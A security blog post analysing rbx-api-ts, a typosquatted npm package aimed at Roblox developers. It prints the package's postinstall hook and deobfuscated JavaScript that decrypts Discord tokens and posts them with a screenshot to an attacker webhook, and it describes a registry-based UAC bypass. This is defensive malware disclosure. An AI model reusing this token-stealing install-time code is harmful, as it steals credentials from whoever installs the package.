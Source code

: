 ```yaml
---
title: The attack on Roblox developers is still ongoing
categories:
  - Security
tags:
  - Poison
date: 2024-12-26 22:00:00
---
```

## Summary
A malicious NPM package called rbx-api-ts is disguised with a name similar to [rbx-reader](https://github.com/littleBitsman/rbx-reader) to confuse users. Its purpose is to steal Discord tokens, install the Quasar RAT (a remote access tool), and disable or modify security software.
The malware also tampers with the Windows registry to activate itself whenever the user opens the Settings app.
![](/assets/2024-12-26/rbx-api-ts.jpg)
## Attack Path
![](/assets/2024-12-26/attack-pth.png)

## Code Analysis
Malicious code is triggered by executing the postinstall script in package.json during installation, Users only need to trigger the malicious code by installing it via npm install.
### package.json
```json
{
  "name": "rbx-api-ts",
  "version": "1.6.9",
  "description": "A NPM module for reading .rbxm(x) and .rbxl(x) files",
  "main": "dist/index.js",
  "types": "dist/index.d.ts",
  "repository": {
    "type": "git",
    "url": "git+https://github.com/littleBitsman/rbx-reader.git"
  },
  "author": "littleBitsman",
  "contributors": [
    {
      "name": "shiinazzz",
      "url": "https://www.npmjs.com/~shiinazzz"
    }
  ],
  "license": "AGPL-3.0-or-later",
  "bugs": {
    "url": "https://github.com/littleBitsman/rbx-reader/issues"
  },
  "homepage": "https://github.com/littleBitsman/rbx-reader#readme",
  "devDependencies": {
    "@types/jsdom": "^21.1.6",
    "typescript": "^5.3.3"
  },
  "dependencies": {
    "axios": "^1.7.8",
    "child_process": "^1.0.2",
    "crypto": "^1.0.1",
    "fs": "^0.0.1-security",
    "jsdom": "^25.0.1",
    "node-dpapi-prebuilt": "^1.0.4",
    "node-fetch": "^2.7.0",
    "os": "^0.1.2",
    "rbx-handler":"1.15.0"
  },
  "scripts": {
    "postinstall": "node postinstall"
  }
}
```
### postinstall.js
postinstall.js is obfuscated code.
![](/assets/2024-12-26/postinstall.jpg)
Use online deobfuscation for preliminary cleaning:
![](/assets/2024-12-26/deobfuscator.jpg)

### Core Code Simplification After Deobfuscation
```javascript
const os = require("os");  
const fs = require("fs");  
const path = require("path");  
const axios = require("axios");  
const { execSync } = require("child_process");  

const remoteURL = Buffer.from("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTMyMT...", "base64").toString('utf-8');  

function captureTokens(dir, tokens) {  
    const files = fs.readdirSync(dir);  
    for (const file of files) {  
        const filePath = path.join(dir, file);  
        if (fs.lstatSync(filePath).isDirectory()) {  
            captureTokens(filePath, tokens);  
        } else if (file.endsWith(".log") || file.endsWith(".ldb")) {  
            const content = fs.readFileSync(filePath, "utf8");  
            const regex = /dQw4w9WgXcQ:([^\"]+)/;  
            const match = content.match(regex);  
            if (match) {  
                const token = decryptToken(match[1]);  
                if (token) tokens.push(token);  
            }  
        }  
    }  
}  

function sendPayload(tokens, screenshotPath) {  
    const username = os.userInfo().username;  
    const embeds = tokens.map(token => ({  
        name: `Token: ${token}`,  
    }));  

    axios.post(remoteURL, {  
        username: `PC: ${username}`,  
        embeds: embeds,  
        file: fs.readFileSync(screenshotPath),  
    }).catch(console.error);  
}  

async function main() {  
    const tokens = [];  
    const screenshotPath = path.join(os.homedir(), "AppData", "screenshot.png");  

    await captureTokens("C:\\Users\\XYZ\\AppData\\Roaming\\Discord", tokens);  
    sendPayload(tokens, screenshotPath);  
}  

main();
```
### Malicious behavior
1. File Path and Environment Operations:
Specific paths are defined, such as the AppData directory, to determine the user environment through operating system information (os.userInfo, os.homedir, etc.). Random paths and filenames are dynamically generated for storing malicious files, such as downloading and executing cmd.exe or other executable files.

2. UAC Bypass and Registry Operations:
Registry keys and values are added and modified using the registry (HKCU\Software\Classes and ms-settings) to bypass User Account Control (UAC) by disguising as the ms-settings application. After completing the registry operations, specific commands are executed (such as launching designated programs or elevating privileges to run malicious code).

3. Intercepting and Decrypting Credentials (e.g., Discord Token):
Specific directories (such as Discord's leveldb storage) are traversed to find .log and .ldb files. The os_crypt and dpapi functions are used to decrypt data, extracting sensitive user information (such as the Discord Token). The correctness of the sensitive data is verified before sending it to a remote API.

4. Screenshot and File Upload:
Screenshots are taken using the screenshot module. The screenshot files and other data (such as credentials) are sent to a specified remote server using axios or fetch. The remote address is obfuscated through Base64 encoding to conceal the actual URL.

5. Reverse Call and Code Obfuscation Protection:
Various obfuscation and anti-tampering measures are included, such as using debugger detection to hinder analysis with meaningless code. Constructor functions (Function) are utilized to dynamically generate functions or execute code.

6. Malicious Execution and Feedback:
Malicious executable files are downloaded and executed (dynamically located via URL), and upon completion, a callback is made to notify the remote server of the execution status. Environmental information, including username, operating system, directories, etc., is stolen to record specific details about the attacked target.

## IOC
https[:]//discord.com/api/webhooks/1321618748800766065/xbYSb2el1e8huLuC2tX7J4_qSpAUEmIc_6o14R1eaf5EyrOlcFkYsPFWiumjxy4jh153

## Reference
1. https://www.virustotal.com/gui/url/cd2c8cbb84dd335d06abd542b9cceb6de20593de74e17c21e3302f795490c3cb/community
2. https://www.virustotal.com/gui/file/c316b0b818125541a90d7110af8c0908a8d6c73d3b846a27aed647fab6b38e00
2. https://checkmarx.com/blog/year-long-campaign-of-malicious-npm-packages-targeting-roblox-users/